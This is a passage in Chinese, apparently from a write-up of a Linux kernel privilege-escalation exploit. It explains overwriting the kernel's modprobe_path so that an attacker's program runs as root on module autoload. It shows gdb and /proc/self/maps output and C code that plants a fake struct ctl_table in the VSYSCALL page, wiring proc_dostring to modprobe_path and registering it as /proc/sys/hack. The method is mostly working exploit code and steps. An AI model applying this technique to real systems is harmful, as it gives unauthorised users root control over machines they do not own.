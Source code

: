    static int call_modprobe(char *module_name, int wait)
    {
        ...
        info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
                        NULL, free_modprobe_argv, NULL);
        ...
        return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
        ...
    }

实际情况也是这样：

    (gdb) p modprobe_path 
    $1 = "/sbin/modprobe", '\000' <repeats 241 times>

内核变量modprobe_path保存的是modprobe程序的路径，我们把它改成提权程序的路径，这样只要触发
模块自动加载，我们的提权程序就能以root权限启动了。我们利用sysctl + proc_dostring()的组合
来实现写modprobe_path变量。

- 内核中找一个用户空间可以写入的地址来存放struct ctl_table结构体，这里选用VSYSCALL的页。
  内核中VSYSCALL地址是一个固定的地址0xffffffffff600000。大小是一个页4096字节。

        #define VSYSCALL_ADDR (-10UL << 20) // 0xffffffffff600000

        static struct vm_area_struct gate_vma = {
            .vm_start	= VSYSCALL_ADDR,
            .vm_end		= VSYSCALL_ADDR + PAGE_SIZE,
            .vm_page_prot	= PAGE_READONLY_EXEC,
            .vm_flags	= VM_READ | VM_EXEC,
            .vm_ops		= &gate_vma_ops,
        };
   
   每个应用程序都会自动映射VSYSCALL的地址空间，拥有只读和可执行权限。

        [elemeta@emcos66x64 ~]$ grep vsyscall /proc/self/maps
        ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0        [vsyscall]

- 第一次触发漏洞，执行内核函数set_memory_rw()让用户空间对VSYSCALL页有写权限。我们可以利用的范围是
  0xffffffffff600000 - 0xffffffffff601000。


- 我们选择在VSYSCALL_ADDR+0x850处构造struct ctl_table结构体, 让proc_handler = proc_dostring(), 
  data = modprobe_path。
- 第二次触发漏洞，执行内核函数register_sysctl_table注册该ctl_table。路径是/proc/sys/hack、我们
  用它来修改modprobe_path变量的内容。

        c = (struct ctl_table *)(VSYSCALL+0x850);
        memset((char *)(VSYSCALL+0x850), '\x00', 1952);
        strcpy((char *)(VSYSCALL+0xf00),"hack");
        memcpy((char *)(VSYSCALL+0xe00),"\x01\x00\x00\x00",4);
        c->procname = (char *)(VSYSCALL+0xf00);
        c->mode = 0666;
        c->proc_handler = (void *)(off->proc_dostring);
        c->data = (void *)(off->modprobe_path);
        c->maxlen=256;
        c->extra1 = (void *)(VSYSCALL+0xe00);
        c->extra2 = (void *)(VSYSCALL+0xd00);

